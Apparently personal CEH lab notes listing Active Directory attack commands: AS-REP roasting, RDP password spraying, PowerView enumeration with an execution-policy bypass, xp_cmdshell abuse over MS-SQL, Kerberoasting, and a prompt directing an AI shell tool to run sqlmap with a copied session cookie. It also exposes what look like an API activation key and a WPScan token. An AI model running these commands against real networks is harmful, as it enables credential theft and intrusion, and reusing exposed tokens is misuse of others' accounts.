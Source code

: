 ##no-auth in Kerberos
python3 GetNPUsers.py CEH.com/ -no-pass -usersfile /root/ADtools/users.txt -dc-ip 10.10.1.22.
##password spraying
cme rdp 10.10.1.0/24 -u /root/ADtools/users.txt -p "cupcake"


##PowerView
Powershell 
Powershell -EP Bypass
Import-Module .\Powerview.ps1

##userful commands
Get-NPComputer
Get-NetGroup
Get-NetUser
Get-NetOU - Lists all organizational units (OUs) in the domain.
Get-NetSession - Lists active sessions on the domain.
Get-NetLoggedon - Lists users currently logged on to machines.
Get-NetProcess - Lists processes running on domain machines.
Get-NetService - Lists services on domain machines.
Get-NetDomainTrust - Lists domain trust relationships.
Get-ObjectACL - Retrieves ACLs for a specified object.
Find-InterestingDomainAcl - Finds interesting ACLs in the domain.
Get-NetSPN - Lists service principal names (SPNs) in the domain.
Invoke-ShareFinder - Finds shared folders in the domain.
Invoke-UserHunter - Finds where domain admins are logged in.
Invoke-CheckLocalAdminAccess - Checks if the current user has local admin access on specified machines.

### we find that SQL_srv has higher privileges

### Performing Attack on MS-SQL service ( port 1433)
xp_cmdshell is a SQL server stored procedure enabling command shell execution


###mssqlclient.py syntax
python3 /root/impacket/examples/mssqlclient.py CEH.com/SQL_srv:<password>@10.10.1.30 -port 1433

SELECT name, CONVERT(INT, ISNULL(value, value_in_use)) AS IsConfigured FROM sys.configurations WHERE name='xp_cmdshell';, returning a value of 1, indicating that xp_cmdshell is enabled on the server.

##rubeus.exe
Rubeus.exe kerberoas /outfile:hash.txt



## ai activation key and wpscan api-token

AI 22c83d6b6e5a4863b6998a625906c671
WPSCAn API token hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads
bash sgt.sh
type the activation key
sgpt --chat sql --shell "Use sqlmap on target url http://www.moviescope.com/viewprofile.aspx?id=1 with cookie value '[cookie value which you have copied in Step#3]' and enumerate the DBMS databases" 


